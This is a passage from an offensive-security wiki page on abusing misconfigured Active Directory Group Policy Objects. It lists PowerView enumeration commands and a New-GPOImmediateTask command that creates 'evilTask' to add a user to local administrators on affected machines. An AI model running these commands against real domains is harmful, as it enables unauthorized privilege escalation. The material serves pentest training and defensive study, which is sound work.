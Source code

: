 ```powershell
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../../.gitbook/assets/a16.png)

**Computers with a Given Policy Applied**

We can now resolve the computer names the GPO `Misconfigured Policy` is applied to:

```powershell
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```

![](../../../.gitbook/assets/a17.png)

**Policies Applied to a Given Computer**

```powershell
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```

![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://blobs.gitbook.com/assets%2F-LFEMnER3fywgFHoroYn%2F-LWNAqc8wDhu0OYElzrN%2F-LWNBOmSsNrObOboiT2E%2FScreenshot%20from%202019-01-16%2019-44-19.png?alt=media\&token=34332022-c1fc-4f97-a7e9-e0e4d98fa8a5)

**OUs with a Given Policy Applied**

```powershell
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://blobs.gitbook.com/assets%2F-LFEMnER3fywgFHoroYn%2F-LWNAqc8wDhu0OYElzrN%2F-LWNBtLT332kTVDzd5qV%2FScreenshot%20from%202019-01-16%2019-46-33.png?alt=media\&token=ec90fdc0-e0dc-4db0-8279-cde4720df598)

### **Abuse GPO -** [New-GPOImmediateTask](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1)

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](../../../.gitbook/assets/a19.png)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](../../../.gitbook/assets/a20.png)

### GroupPolicy module **- Abuse GPO**


You can check to see if the GroupPolicy module is installed with `Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`. In a pinch, you can install it with `Install-WindowsFeature –Name GPMC` as a local admin.
